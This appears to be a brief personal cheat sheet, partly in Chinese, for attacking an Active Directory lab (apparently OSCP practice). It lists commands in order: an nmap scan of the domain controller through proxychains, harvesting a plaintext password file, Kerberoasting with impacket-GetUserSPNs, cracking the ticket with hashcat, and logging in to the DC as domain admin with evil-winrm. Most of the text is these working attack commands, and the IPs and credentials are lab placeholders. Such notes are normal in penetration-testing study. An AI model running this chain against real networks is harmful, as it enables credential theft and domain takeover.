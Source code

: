 # AD

## Tools

### BloodHound

## persistence

## Tips

1.
1. 扫描DC
proxychains nmap -sT 10.1.1.1
135、445、139、389、88、636、539
powerview

2. Bob域账号、密码
win10: c:\users\bob\desktop\secret.txt
oscp\bob : Passw0rd

3. SPN密码破解
proxychains impacket-GetUserSPNs oscp.com/bob:Passw0rd -dc-ip 10.1.1.1 -request
hash.txt: $krb$sqladmin$asdasdadasdasdadadasdasdasdasdasdasdasdasdasd

4. 密码爆破（sqladmin）
hashcat -m 13100 hash.txt rockyou.txt -O

5. 登录DC
sqladmin -> Domain admins
impacket-psexec 、impacket-smbxec、wmic、evil-winrm（5985）
proxychains evil-winrm -u sqladmin -p Passw0rd -i 10.1.1.1